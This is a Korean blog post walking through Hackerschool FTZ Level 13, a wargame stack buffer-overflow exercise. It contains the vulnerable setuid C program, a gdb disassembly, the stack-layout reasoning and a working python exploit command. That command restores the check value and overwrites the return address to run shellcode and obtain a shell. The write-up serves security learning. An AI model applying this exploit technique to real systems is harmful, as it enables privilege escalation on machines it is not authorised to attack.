 ```yaml
---
date: '2022-10-03'
before : '2022-10-02'
after : '2022-10-04'
title: '시스템 해킹(11) : 해커스쿨 FTZ 레벨 13'
categories: ['C-SEC', 'KOR']
summary: ''
thumbnail: './C_Sec.jpg'
---
```


### 0. 들어가기 전에

또 다시 나온 BOF 문제이다. 하지만 이번 문제는 아주 조금 더 어려운게, 중간에 long i라는 값을 끼워넣어서, 이 값이 변조되었을 경우는 프로그램의 실행을 거부하는 형식의, 아주 기초적인 방어를
하고 있다. 이런 경우에는 그냥 Dummy코드를 짤 때, 저 long i 변수의 정확한 위치를 파악해서 Dummy코드 사이 i값이 오는 위치에 i 값을 정확하게 넣어주면 된다. 바로 코드로 들어가보자.

### 1. Level 13

일단 hint를 확인해 보면 attackme의 소스코드가 다음과 같이 나온다. 

```
#include <stdlib.h>

main(int argc, char *argv[])
{
   long i=0x1234567;
   char buf[1024];

   setreuid( 3094, 3094 );
   if(argc > 1)
   strcpy(buf,argv[1]);

   if(i != 0x1234567) {
   printf(" Warnning: Buffer Overflow !!! \n");
   kill(0,11);
   }
}
```

"들어가기 전에" 에서 설명했지만, 이번에는 i값이 위조되었는지를 확인하는 코드가 if 문에 작성되어있다. 따라서 우리의 더미 데이터에도 i의 본래 값이 들어가있어야 한다.


얼른 카피해서 test 파일을 만들고 gdb로 disassemble 해보자. disassemble 하니 다음과 같은 어셈블리 코드가 실행되었다는 것을 알 수 있다.

```
0x080483c8 <main+0>:    push   ebp
0x080483c9 <main+1>:    mov    ebp,esp
0x080483cb <main+3>:    sub    esp,0x418
0x080483d1 <main+9>:    and    esp,0xfffffff0
0x080483d4 <main+12>:   mov    eax,0x0
0x080483d9 <main+17>:   sub    esp,eax
0x080483db <main+19>:   mov    DWORD PTR [ebp-12],0x1234567
0x080483e2 <main+26>:   sub    esp,0x8
0x080483e5 <main+29>:   push   0xc16
0x080483ea <main+34>:   push   0xc16
0x080483ef <main+39>:   call   0x80482e8 <setreuid>
0x080483f4 <main+44>:   add    esp,0x10
0x080483f7 <main+47>:   cmp    DWORD PTR [ebp+8],0x1
0x080483fb <main+51>:   jle    0x8048417 <main+79>
0x080483fd <main+53>:   sub    esp,0x8
0x08048400 <main+56>:   mov    eax,DWORD PTR [ebp+12]
0x08048403 <main+59>:   add    eax,0x4
0x08048406 <main+62>:   push   DWORD PTR [eax]
0x08048408 <main+64>:   lea    eax,[ebp-1048]
0x0804840e <main+70>:   push   eax
0x0804840f <main+71>:   call   0x8048308 <strcpy>
0x08048414 <main+76>:   add    esp,0x10
```
확인해 보니 우리의 1024크기의 배열은 ebp-1048번째 위치에 생성되었고, i의 값은 ebp-12의 위치에 생성되었다. 이를 이용해 대략적인 레지스터의 스택을 파악해볼 수 있다. 다음의 그림을 그려보았다.

![register_outlook](../contentImages/Level13.png)


쉘코드를 짜고, 주소를 확인해보니 다음과 같다 :
```
./getenv => 0xbffffc1a => \x1a\xfc\xff\xbf // 원래 주소를 little endian으로 변환했다.
```
환경변수의 생성과 주소 파악하는법에 대해 모른다면 다음의 글을 참조하자! : [FTZ Level 12](<https://hosahn.github.io/221002/>)


이제 필요한 도구가 모두 모였다. attackme 함수를 실행하고, argv로 다음과 같은 문장을 넘겨주자.

```
 ./attackme `python -c 'print "\x90"*1036+"\x67\x45\x23\x01"+"\x90"*12+"\x1a\xfc\xff\xbf"'`
```
설명하자면 1036개의 NOP 더미를 넘기고, ebp-8시점에서 i의 주소값을 정확히 정의했으며, 그 후에 또 12개의 NOP 더미를 넘기고 나서 shell코드의 주소를 넘겨주었다.


이해가 가지 않는다면 위의 그림을 다시한번 확인해보자. 실행시키니 shell을 얻을 수 있었다. my-pass로 비밀번호를 확인하였다.


비밀번호 : what the n(여러분들이 아는 그 후드의 단어..) want? (FTZ가 미친듯 하다. 내 외국인 친구들도 보는 블로그라 단어를 쓰진 않겠다..) 

---
## Source

- 해커스쿨 FTZ
- Me!
